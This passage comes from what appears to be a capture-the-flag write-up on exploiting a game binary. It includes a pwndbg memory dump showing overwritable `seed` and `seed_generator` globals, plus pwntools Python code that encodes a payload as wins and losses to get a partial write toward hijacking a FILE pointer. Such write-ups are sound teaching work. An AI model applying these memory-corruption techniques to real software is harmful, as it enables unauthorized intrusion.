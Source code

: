 ```
pwndbg> tel &game_history
00:0000│  0x404088 (game_history) ◂— 0
01:0008│  0x404090 (seed) ◂— 0x53d53925b839c05a
02:0010│  0x404098 (seed_generator) —▸ 0x4052a0 ◂— 0xfbad2488
03:0018│  0x4040a0 ◂— 0
... ↓     4 skipped
```

As it shows, we can overwrite `seed` and `seed_generator`. GOT is found above
`game_history`, so we can't overwrite GOT directly. Overwriting `seed` isn't
very useful. However, overwriting `seed_generator` will allow us to control a
file pointer, which is quite powerful!

## Exploit

### Getting partial write

To make things more convenient for us, let's define a helper that converts a
sequence of bytes into a series of wins and losses:

```python
def fight(win: bool):
    p.sendlineafter(b"> ", b"f")
    if win:
        p.sendline(b"-1")
    else:
        p.sendline(b"0")

payload = p64(0xdeadbeef, endian="big")
hexstr = payload.hex()
binstr = "{:08b}".format(int(hexstr, 16))
binstr = [binstr[i:i+64][::-1] for i in range(0, len(binstr), 64)]

print(binstr)

counter = 0
for num in binstr:
    for i in num:
        counter += 1
        if counter % 100 == 0:
            print(counter)
        if i == "0":
            fight(False)
        else:
            fight(True)
```

First, we convert our payload into binary representation (in big endian so order
of bits is continuous). Then we slice it into slices of 64 bits, and reverse
each slice, because we start writing from the most significant bit as shown:

```
0x0000000000000000
^ we start writing here
```
